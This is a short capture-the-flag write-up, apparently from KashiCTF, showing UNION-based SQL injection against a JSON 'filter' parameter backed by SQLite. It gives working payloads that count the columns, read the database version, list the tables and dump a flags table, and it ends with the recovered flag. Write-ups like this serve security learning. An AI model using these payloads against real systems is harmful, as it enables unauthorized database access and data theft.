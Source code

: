 This challenge has the same endpoint as the first, with the same injection point. We simply need to detect the database type and then dump the entire database.

The request has six columns:
```
{"filter":"Finance' order by 6 -- -"}
```
as order by 7 gives us an error.

So the database is sqlite:
`{"filter":"Finance' union select (select sqlite_version()),2,3,4,5,6 -- -"}` gives us
```
[{"employee_name":"3.44.2","request_detail":2,"status":3,"department":4,"role":5,"email":6}]
```

Get the table names:
`{"filter":"Finance' union select (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),2,3,4,5,6 -- -"}` gives us 
`"requests,flags"`

And then dump flags:
`{"filter":"Finance' union select (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flags'),2,3,4,5,6 -- -"}`
gives:
```
CREATE TABLE flags (\n      request_id INTEGER,\n      secret_flag TEXT,\n      FOREIGN KEY (request_id) REFERENCES requests(id)\n    )
```

And then go through the offsets until we have the full flag:
```
{"filter":"Finance' union select (SELECT secret_flag FROM flags LIMIT 1 OFFSET 1),2,3,4,5,6 -- -"}
```

which is: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_PR34i8kN}


